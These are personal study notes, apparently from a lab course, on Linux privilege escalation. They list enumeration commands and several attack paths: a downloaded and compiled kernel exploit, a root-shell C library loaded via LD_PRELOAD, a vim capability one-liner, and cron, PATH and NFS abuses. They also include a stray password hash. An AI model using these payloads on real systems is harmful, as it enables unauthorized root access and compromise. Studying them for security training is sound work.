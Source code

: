 # Privilege Escalation - going from a lower permission account to a higher permission one
-exploitation of a vulnerability, design flaw or configuration oversight in an OS or APP to gain unathorized access to resources that are usually restricted from the users
### -Privilege Escalation allows:
1. Resetting passwords
2. Bypass access controls to compromise protected data
3. Editing software configurations
4. Enabling persistence
5. Changing the privilege of existing users
6. Execute any admin command

## Linux Commands

**Enumeration** - first step taken after gaining access, important step post-compromise phase-

- **hostname** - command returns hostname of the target machine
- **uname -a** - print system information detail about kernel, useful for potential kernel vulns
- **/proc/version** - info about the target system processes
- **/etc/issue** - file contains info about the OS, can be eaily customized or changed
- **ps** - see running processes on linux system
-1. PID: Process ID
-2. TTY: Terminal type used by user
-3. Time: Amount of CPU time used by process
-4. CMD: command or executable running
- **ps -a** - view all running processes
- **ps axjf** - view process tree
- **ps aux** - will show processes for all users
-a: all users
-u: display the user that launced the process
-x: show processes that are not attached to a terminal

'env': show environmental variables
'sudo -l: list all commands the user can run using 'sudo'
'ls': list files in current directory
'ls -la': list all files including hidden files in current directory
'id <user>': provide a general overview of the user's privilege level
'cat /etc/passwd': discover users on the system
'cat /etc/passwd | cut -d ":" -f 1": easily list all users and ignore other parts
'history': look at earlier commands 
'ifconfig': information about the network interfaces (eth0, tun0, and tun1)
'ip route': see network route

'netstat': gather information on existing connections
'netstat -a': shows all listening ports and established connections
'netstat -at': list TCP protocols
'netstat -au': list UDP protocols
'netstat -l': list ports in 'listening' mode. Ports are open and ready to accept incoming connection
'netstat -lt': list ports in 'listening' mode using TCP protocol
'netstat -s': list network usage statistics by protocol (-t: TCP, -u: UDP)
'netstat -tp': list connections with service name and PID (-l: listening ports)
'netstat -i': shows interface stats
'netstat -ano': -a = display all sockets, -n: do not resolve names, -o: display timers

find command - searching the target system for important information and potential privilege escalation vectors 
'find . -name <filename>.txt' find the file named <filename> in the current directory
'find /home -name <filename>.txt': find file named <filename> in the /home directory
'find / -type d -name config': find the directory named config under "/"
'find / -type f -perm 0777': find files with the 777 permissions(files readable, writable and executable by all users)
'find / -perm a=x':find executable files
'find /home -user frank': find all files for user "frank" under "/home"
'find / -mtime 10': find files modified in the last 10 days
'find / -atime 10': find files accessed in the last 10 days
'find / -cmin -60': find files changed in the last hour 
'find / -amin -60': find files accessed in the last hour
'find / -size 50M': find files with a 50 MB size

folders and files that can be written to or executed from:
1. 'find / -writable -type d 2>/dev/null'
2. 'find / -perm -222 -type d 2>/dev/null'
3. 'find / -perm -o w -type d 2>/dev/null'
'find / -perm -o x -type d 2>/dev/null': find world executable folders
find development tools and supported languages:
'find / -name perl*'
'find / -name python*'
'find / -name gcc*'
'find / -perm -u=s -type f 2>/dev/null': find files with SUID bit, which allows us to run the file with a higher privilege than the current user

Automated Enumeration Tools - linux enumeration tools with Github Repositories
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker

Kernel Exploits
-privEsc ideally leads to root privileges
-achieved by exploting an existing vuln or accessing another user account that has higher privileges
-rely on misconfigurations and lax permissions
-methodology:
1. Id the Kernel version
2. search and find an exploit code (https://www.linuxkernelcves.com/cves)
3. Run the exploit

Linux Kernel 3.13.0-24-generic x86 64
CVE-2015-1328: Allows local users to obtain root access by leveraging a configuration in which 'overlayfs' is permitted in an arbitrary mount namespace. 
Exploit: https://www.exploit-db.com/exploits/37292
1. Need to copy exploit file to the target machine
	a. start a python server to serve the file
	python3 -m http.server 8888
	b. on target machine copy the file in the /tmp folder
	wget http://1.2.3.4/8888/exploit.c
2. compile the exploit
gcc exploit.c -o pwned
3. search for flag
find . -name flag1.txt
4. cat flag1.txt

Sudo
-check root privileges using 'sudo -l'
-Leverage application functions: some application allow the loading of alternative configuration files
eg: Apache2 ('-f': specify an alternate ServerConfigFile)
-Leverage LD_PRELOAD: allows any program to use shared libraries
-if "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run
-LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID
-Methodology:
1. Check for LD_PRELOAD(with the env_keep option enabled)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and LD_PRELOAD option pointing to our .so file
The C code will simply spawn a root shell and can be written as follows; shell.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
-use this shared object file when launching any program the user can run with sudo
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::

SUID
-Linux privilege controls rely on controlling users and file interacions
-achieved using permissions
-SUID(set-user identification)
-SGID(set-group identification)
-'s'bit - special permission level
'find / -type f -perm -04000 -ls 2>/dev/null': list files with SUID or SGID bit set

Capabilities
'getcap' tool  to list enabled capabilities
-capabilites help manage privileges at a more granular level
'getcap -r /' generates a lot of erros so it is good practice to redirect error messages to /dev/null
'getcap -r / 2>/dev/null'
vim:
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

Cron Jobs
-used to run scripts or binaries at specific times
-run with privilege of the owner and not current user
-task that runs on root privileges, change script that will be run to new script with root privileges
-stored as crontabs
-any user can read the file keeping system-wide cron jobs under '/etc/crontab'
backup.sh - configured to run every minute

PATH
-if a folder for the user has a write permission located in the path, an applicaition in the path could be hijacked to run a script and increase privileges
echo $PATH

NFS
-Network file sharing: configuration is kept in '/etc/exports' file. 
-the file is created during the NFS server installation and can usually be read by users
-critical element: "no_root_squash" - default NFS will change the root user to nfsnobody and strip any file from operating with root privileges
- 'no_root_squash' is present on a writable share, it is possible to create an executable with SUID bit set and run it on the target system



